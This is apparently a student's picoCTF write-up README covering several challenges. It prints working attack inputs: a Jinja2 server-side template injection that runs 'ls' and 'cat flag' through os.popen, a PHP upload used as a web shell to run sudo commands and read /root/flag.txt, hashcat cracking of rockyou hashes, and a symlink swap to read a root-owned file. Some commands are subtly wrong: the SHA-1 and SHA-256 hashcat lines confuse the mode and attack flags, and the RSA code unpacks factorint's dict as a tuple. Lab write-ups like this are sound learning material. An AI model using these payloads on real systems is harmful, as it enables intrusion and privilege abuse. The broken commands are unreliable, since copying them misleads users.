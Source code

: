 # My picoCTF exercises

## [My picoCTF profile](https://play.picoctf.org/users/RedZunder)
- [Web exploitation](#web-exploitation)
- [Cryptography](#cryptography)
- [Reverse engineering](#reverse-engineering)
- [General Skills](#general-skills)


# Web Exploitation
<details open>
  <summary>SSTI1</summary>
  
  Entering the target website, we find an input field which 'announces' the user input. As inferred from the title of this CTF, we are looking to Server Side Template Injection.
  Using this workflow from [Cobalt](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti):
  ![image](https://github.com/user-attachments/assets/64991461-7402-4241-959a-9405862694a3)

  `$(7*7)` simply returns that literal string. Writing `{{7*7}}`, however, returns `49`. Sending `{{7*'7'}}` gives back `7777777`, suggesting the server might be running **Jinja2**.
  Now we can run commands like this one: `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` to see the files in the directory. Doing this we find a `flag` file.
  Naturally, we try to read this file: `{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}` which returns the flag successfully.  
</details>

<details open>
<summary>n0s4n1ty 1</summary>

When entering the machine, we are presented a page where the user can upload a profile picture. First we will try to exploit this by checking if the input is sanitized. Trying to upload some `test.txt` file, and navigating to `/uploads/test.txt` as indicated by the upload page, we see the input is indeed not sanitized, since we are able to upload _any_ type of file. Next, we start trying differet commands in a `php` file:
```php
<?php

echo getcwd();

?>
```
which successfully returns the path `/var/www/html/uploads` . Knowing the structure, we try `ls /` and see where the `root` folder is. Now we can test if we may be able to `sudo` commands. Adding `sudo -l` we obtain:
```
...
User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```
Meaningg we can `sudo` whatever we want. So, we attempt `echo shell_exec('sudo ls /root')` and find `flag.txt` in that folder. 

Finally, adding the line `echo shell_exec('sudo cat /root/flag.txt')` gives us the flag.
</details>















# Cryptography

<details open>
<summary>Hashcrack</summary>
  
When we use _netcat_ to get the server, we are given a hash. Checking its length, we see it's 32 characters, or 128 bits, typical of MD5. 

Using ```hashcat -m 0 -a 0 <hash> /usr/share/wordlists/rockyou.txt``` we crack the password pretty quick.
The next hash is 40 char long, or 160 bits. Trying first with SHA-1, ```hashcat -m 0 -a 100 <hash> /usr/share/wordlists/rockyou.txt``` we again obtain the password. 

One last time, the hash is of length 64, or 256 bits. Supposing it's SHA-256 and running the same command with ```-a 1400```, we obtain the flag.

</details>

<details open>
<summary>Even RSA can be broken</summary>
  
First we use _netcat_ to get the encrypted flag, 'N' and 'e'. Looking at the source code provided, we see how the RSA keys are calculated.
```python
def gen_key(k):
    """
    Generates RSA key with k bits
    """
    p,q = get_primes(k//2)
    N = p*q
    d = inverse(e, (p-1)*(q-1))

    return ((N,e), d)
```
From the library `Crypto.Util.number` we can make use of `inverse` to reverse this encryption.
```python
#We obtain the prime factors of N
(p,q)=factorint(N)

#We calculate phi, needed for the next step
phi=(p-1)*(q-1)

#We get the inverse modulo, from the algorithm:  (d*e) % phi = 1
d=inverse(e,phi)

#Finally obtain the flag -> From the source code:  pow(bytes_to_long(flag.encode(utf-8)),e,N) so we reverse it
flag=long_to_bytes(pow(cypher,d,N)).decode()
```
  
</details>





# Reverse Engineering
<details open>
<summary>Flag Hunters</summary>
  
We use _netcat_ to communicate with the server and download the Python source code. Checking the code, we observe:

```python
elif re.match(r"CROWD.*", line):
    crowd = input('Crowd: ')
    song_lines[lip] = 'Crowd: ' + crowd
```
Which allows the user to enter anything, including commands.
We can also find:

```python
elif re.match(r"RETURN [0-9]+", line):
    lip = int(line.split()[1])
```
Which returns to the beginning of one of the paragraphs from 0 to 9. The flag is stored in paragraph 0, which is not shown.
We can then inject the code ```blablabla; RETURN 0``` in order to trigger the RETURN case, and thus obtain the flag in plaintext.


</details>



# General Skills

<details open>
<summary>Plumbing</summary>
  
This challenge is trivial: simply `nc` to the machine and obtain a large text, then I used `| grep 'pico'` and obtained the flag.

<details open>
<summary>Based</summary>

Also a trivial challenge, we must translate from binary, octal and hex to ascii within 45 seconds. I simply used online tools to translate the inputs, and obtain the flag.

</details>

<details open>
  <summary>dont-you-love-banners</summary>
  
  For this task we use `netcat` first to a 'leaking' server, which gives us a password in plain text.
  Next, we `nc` to the target machine, which prompts us for the password, which we obtained from the other machine. After answering some questions, we find ourselves in the shell:

![image](https://github.com/user-attachments/assets/c93fe9bc-4517-4866-983d-dc2146794efc)

Poking around we find the root folder which contains the flag:
```shell
$ls /root
> flag.txt  script.py
```
However we don't have permissions to open the flag. Doing `cat script.py` we find the reference to another file:
```python
with open("/home/player/banner", "r") as f:
        print(f.read())
```
So we only need to replace the `banner` file for `flag.txt`. For that we use a _symlink_. Travelling to the `player` folder which contains the banner:  `rm banner; ln -s /root/flag.txt banner`
This swaps the banner for a file pointing to our flag. Now we can use `netcat` again to contact the server, and we get the flag in plaintext.

</details>
















